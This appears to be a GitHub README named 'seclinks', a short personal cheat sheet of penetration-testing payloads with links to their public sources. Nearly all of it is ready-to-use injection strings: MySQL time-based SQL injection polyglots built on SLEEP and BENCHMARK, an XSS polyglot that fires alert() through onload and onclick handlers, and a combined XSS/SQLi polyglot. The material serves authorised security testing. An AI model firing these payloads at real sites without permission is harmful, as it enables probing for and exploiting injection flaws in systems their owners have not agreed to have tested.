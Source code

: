 # seclinks
Collection of my various security/penetration testing resources

SQL Injection:  
    MySQL universal SQLi payload (https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/):  
> IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20injection/Payloads/SQLi_Polyglots.txt:

> SLEEP(1) /*‘ or SLEEP(1) or ‘“ or SLEEP(1) or “*/

> SELECT 1,2,IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),​SLEEP(1)))OR"*/ FROM some_table WHERE ex = ample

XSS:  
    XSS Polyglot (https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot) 
> jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

XSS/SQLi Polyglot
> /*! SLEEP(5) /*/ onclick=alert(1)//<button value=Click_Me /*/*/ or' /*! or SLEEP(5) or /*/, onclick=alert(1)//> /*/*/'or " /*! or SLEEP(5) or /*/, onclick=alert(1)// /*/*/"/* 
24242424 */ /*!/*/ // /*/*/



